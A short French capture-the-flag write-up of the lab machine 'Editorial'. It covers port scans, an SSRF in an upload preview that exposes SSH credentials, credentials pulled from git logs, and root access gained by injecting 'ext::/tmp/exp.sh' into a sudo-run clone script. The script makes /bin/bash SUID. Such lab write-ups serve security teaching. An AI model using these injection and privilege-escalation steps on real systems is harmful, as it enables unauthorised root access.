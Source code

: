 # Editorial

	echo "10.10.11.20 editorial.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.20 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.20 -oN nmap.txt
	feroxbuster --silent -u http://editorial.htb
	
Scans classiques.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)

Chemins : 

    http://editorial.htb/upload
    http://editorial.htb/about
    http://editorial.htb/static/css/bootstrap.min.css
    http://editorial.htb/static/images/pexels-min-an-694740.jpg
    http://editorial.htb/static/images/pexels-janko-ferlic-590493.jpg
    http://editorial.htb/upload-cover
    http://editorial.htb/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg


http://editorial.htb/upload => SSRF sur la fonction "Preview" qui envoie une requête "POST /upload-cover HTTP/1.1"


http://127.0.0.1:5000/api/latest/metadata/messages/authors => Credentials SSH pour le compte "dev"

	ssh dev@10.10.11.20
	cat user.txt	 

## Pivoting

Credentials du compte "prod" dans des logs : 

    cat /home/dev/apps/.git/logs/d
    ssh prod@10.10.11.20

## Élévation de privilèges

	sudo -l
    
> (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *


Programme qui clone une URL.

    sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::/tmp/exp.sh'
    /bin/bash -p 
    cat /root/root.txt

Exemple de contenu pour exp.sh : 

    #!/bin/bash
    chmod 4777 /bin/bash
